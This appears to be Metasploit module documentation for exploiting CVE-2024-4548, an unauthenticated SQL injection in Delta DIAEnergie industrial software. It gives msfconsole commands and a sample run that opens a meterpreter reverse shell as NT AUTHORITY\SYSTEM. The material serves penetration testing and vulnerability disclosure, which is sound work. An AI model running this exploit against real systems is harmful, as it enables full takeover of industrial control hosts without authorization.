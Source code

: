 ## Vulnerable Application

**Vulnerability Description**

This module exploits a SQL injection vulnerability in DIAEnergie <= v8.28.0 (CVE-2024-4548).

An unauthenticated remote attacker can exploit this vulnerability to inject an arbitrary script through a SQL injection vulnerability, which
can then be executed in the context of `NT AUTHORITY\SYSTEM`. The vulnerability is within the CEBC service, which listens by default on TCP
port 928. It accepts various user-controlled data, including `RecalculateHDMWYC` messages, which are insufficiently validated before using
them as part of a SQL query.

Versions <= 1.10.1.8610 are affected. Tenable published [TRA-2024-13](https://www.tenable.com/security/research/tra-2024-13) to cover the
security issues.

**Vulnerable Application Installation**

A trial version of the software can be obtained from [the vendor]
(https://downloadcenter.deltaww.com/downloadCenterCounter.aspx?DID=39969&DocPath=1&hl=en-US).
For the product to work correctly, SQL Server (e.g., SQL Server Express) needs to be installed.

**Successfully tested on**

- DIAEnergie v1.10 on Windows 10 22H2
- DIAEnergie v1.9 on Windows 10 22H2

## Verification Steps

1. Install the SQL Server (Express)
2. Install DIAEnergie
3. Start `msfconsole` and run the following commands:

```
msf6 > use exploit/windows/scada/diaenergie_sqli
[*] No payload configured, defaulting to cmd/windows/http/x64/meterpreter/reverse_tcp
msf6 exploit(windows/scada/diaenergie_sqli) > set RHOSTS <IP>
msf6 exploit(windows/scada/diaenergie_sqli) > exploit
```

You should get a meterpreter session in the context of `NT AUTHORITY\SYSTEM`.

## Scenarios

Running the exploit against DIAEnergie v1.10 on Windows 10 22H2, using curl as a fetch command, should result in an output similar to the
following:

```
msf6 exploit(windows/scada/diaenergie_sqli) > exploit

[*] Started reverse TCP handler on 192.168.1.241:4444 
[*] 192.168.1.245:928 - Running automatic check ("set AutoCheck false" to disable)
[+] 192.168.1.245:928 - The target appears to be vulnerable.
[*] 192.168.1.245:928 - Sending SQL injection...
[*] 192.168.1.245:928 - Triggering script execution...
[*] 192.168.1.245:928 - Cleaning up database...
[+] 192.168.1.245:928 - Script successfully injected, check thy shell.
[*] Sending stage (201798 bytes) to 192.168.1.245
[*] Meterpreter session 1 opened (192.168.1.241:4444 -> 192.168.1.245:50605) at 2024-07-29 23:59:53 -0400

meterpreter > shell
Process 6392 created.
Channel 1 created.
Microsoft Windows [Version 10.0.19045.4529]
(c) Microsoft Corporation. All rights reserved.

C:\WINDOWS\system32>whoami
whoami
nt authority\system
```
